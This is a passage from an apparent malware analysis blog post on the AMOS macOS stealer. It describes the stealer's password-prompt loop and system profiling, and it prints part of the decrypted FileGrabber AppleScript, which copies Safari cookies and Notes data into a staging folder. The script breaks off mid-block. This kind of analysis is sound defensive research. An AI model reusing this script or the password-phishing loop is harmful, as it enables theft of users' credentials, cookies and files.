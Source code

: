 After that, the malware executes the **dscl** command again to validate the credentials, this process will be executed until the user enters the correct password. The credentials check is done by the **haha_check_cv** function. 

The following screenshot of the **getpasswordit** function, shows the exit condition from the loop responsible to ask the user password, it breaks when the **haha_check_cv** returns 1.


{{< image src="img/2024-03-08-amos-atomic-macos-stealer-analysis/img16.png" caption="Figure 16 - User Password Loop" wrapper="text-center">}}


### Get System Information

The malware gets system information by executing the following command via **shellarmy**.

~~~
system_profiler SPSoftwareDataTye SPHardwareDataType SPDisplaysDataType
~~~

In the image below we can see a portion of the command result in the debugger.

{{< image src="img/2024-03-08-amos-atomic-macos-stealer-analysis/img17.png" caption="Figure 17 - System Information" wrapper="text-center">}}

At this point RussianPanda reportes an anti-vm check, in this sample this check is not implemented.

### Steal Data

The Malware uses several functions to steal files related to Browsers, Wallets and System data.

[RussiandPanda](https://russianpanda.com) and [BitDefender](https://www.bitdefender.com/blog/labs/when-stealers-converge-new-variant-of-atomic-stealer-in-the-wild/) reported the new version of the "**FileGrabber**" functionality used by the malware to grab several files and put them in the folder **~/fg/**. In their blogs, they showed the osascript used to do this.

In my sample  the **FileGrabber** osacript and the related string **FileGrabber** used to create the file in the zip, are both encrypted in the segment section at the following addresses:

* 0x10003DFE2
* 0x10003E0FA
* 0x10003E33A
* 0x10003E5CA
* 0x10003E8EA

These strings are decrypted during the malware execution, but the script itself is never executed. In the following snipet you can see the decrypted **FileGrabber** osascript.

~~~bash
osascript -e '
    set destinationFolderPath to (path to home folder as text) & "fg:"
    set extensionsList to {"txt","png","jpg","jpeg","wallet","keys","key"} 
    set bankSize to 0 
    tell application "Finder" 
    set username to short user name of (system info) 
    try 
        if not (exists folder destinationFolderPath) then 
            make new folder at (path to home folder) with properties {name:"fg"} 
        end if 
        set safariFolder to ((path to library folder from user domain as text) & "Containers:com.apple.Safari:Data:Library:Cookies:") 
        try 
            duplicate file "Cookies.binarycookies" of folder safariFolder to folder destinationFolderPath with replacing 
        end try 
        
        set notesFolderPath to (path to home folder as text) & "Library:Group Containers:group.com.apple.notes:" 
        try 
            set notesFolder to folder notesFolderPath 
~~~